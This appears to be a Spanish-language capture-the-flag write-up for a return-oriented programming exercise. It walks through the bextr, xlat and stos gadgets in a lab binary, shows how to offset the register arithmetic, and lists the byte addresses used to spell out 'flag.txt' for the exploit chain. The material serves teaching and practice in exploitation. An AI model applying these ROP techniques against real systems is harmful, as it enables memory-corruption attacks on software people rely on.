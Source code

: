 | 15<–––>8 | 7<–––>0       |
| -------- | ------------- |
| Tamaño   | Bit de inicio |

Si queremos copiar todo *rcx* en *rbx*, *rdx* debe valer `0x4000`.

| 15–––->8 | 7<–––>0  |
| -------- | -------- |
| 01000000 | 00000000 |
Lo que significa que podemos controlar *rbx* utilizando *rcx* y *rdx*.

[stos](https://www.felixcloutier.com/x86/stos:stosb:stosw:stosd:stosq)
> The STOS instruction copies the data item from AL (for bytes - STOSB), AX (for words - STOSW) or EAX (for doublewords - STOSD) to the destination string, pointed to by ES:DI in memory.

Es decir, con estos gadgets, podemos:

- Modificar un bit de *rdi*, desde *al*.
- Modificar *al*, desde *rbx*.
- Modificar *rbx*, desde *rcx* y *rdx*.

# Explotación

Antes de empezar debemos tener en cuenta una cosa:

```asm
0x000000000040062a <+2>: pop    rdx
0x000000000040062b <+3>: pop    rcx
0x000000000040062c <+4>: add    rcx,0x3ef2
0x0000000000400633 <+11>: bextr  rbx,rcx,rdx
0x0000000000400638 <+16>: ret
```

Si nos fijamos, suma `0x3ef2` a *rcx*, por lo que antes de llamar a dicho gadget debemos restar dicho valor.

Continuando:

```asm
0x0000000000400628 <+0>:	xlat   BYTE PTR ds:[rbx]
0x0000000000400629 <+1>:	ret
```

Debemos hacer que *al* valga `0`, ya que lo que hace es almacenar en *al*, `al + rbx[al]`. Para ello tenemos varios gadgets:

```asm
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
```

Finalmente, como no podemos pasar la string `flag.txt`, debemos buscarla en el binario, además no está como tal, por lo que tomaremos carácter a carácter:

```gdb
(0x4003c4, 0), # 'f'
(0x4003c5, 1), # 'l'
(0x4003d6, 2), # 'a'
(0x4003cf, 3), # 'g'
(0x40024e, 4), # '.'
(0x400192, 5), # 't'
(0x400246, 6), # 'x'
(0x400192, 7), # 't'
```
